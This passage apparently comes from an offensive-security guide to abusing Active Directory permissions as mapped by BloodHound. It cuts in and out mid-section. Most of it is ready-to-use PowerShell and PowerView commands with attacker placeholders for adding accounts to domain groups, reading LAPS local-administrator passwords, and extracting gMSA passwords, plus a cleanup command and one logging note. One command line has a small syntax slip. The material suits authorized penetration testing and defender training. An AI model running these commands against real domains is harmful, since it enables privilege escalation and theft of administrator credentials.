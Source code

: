 An event with the ID 4724 can be logged.

## AddMember
This edge indicates that the source node (user or group) can add a new account to the target node (group).
Again, a simple command is sufficient natively:

```
PS> net group "<targetGroup>" <targetUserName> /add /domain
```

If you prefer to use Powerview:

```
PS> $SecPassword = ConvertTo-SecureString '<attackerPassword>' -AsPlainText -Force
PS> $Cred = New-Object System.Management.Automation.PSCredential('<domain>\\<attackerUser>', $SecPassword)
PS> Add-DomainGroupMember -Identity '<targetGroup>' -Members '<targetUser>' -Credential $Cred
PS> Get-DomainGroupMember -Identity '<targetGroup>'
```

Cleanup using:

```
PS> Remove-DomainGroupMember -Identity <targetGroup> -Members <targetUser> -Verbose
```

## AddSelf
This edge indicates the principal has the ability to add itself to the target security group.
See AddMember

## ReadLAPSPassword
This edge indicates that the source node (user or group) can read the password for the local administrator account (LAPS) on the target computer via LDAP.
The readout can be done using Powerview:

```
PS> $SecPassword = ConvertTo-SecureString '<attackerPassword>' -AsPlainText -Force
PS> Cred = New-Object System.Management.Automation.PSCredential('<domain>\\<attackerUser>', $SecPassword)
PS> Get-DomainObject <targetComputer> -Credential $Cred -Properties "ms-mcs-AdmPwd",name
```

## ReadGMSAPassword
This edge indicates that the source node (user or group) can read the password from GMSA service for the destination node (computer).
To be able to read the password, the GMSAPasswordReader tool can be used:

```
PS> ./GMSAPasswordReader --AccountName <targetComputer>
```

## AllExtendedRights
AllExtendedRights denotes special rights which guarantee write rights to the target object.
The procedure differs depending on the type of the target node:
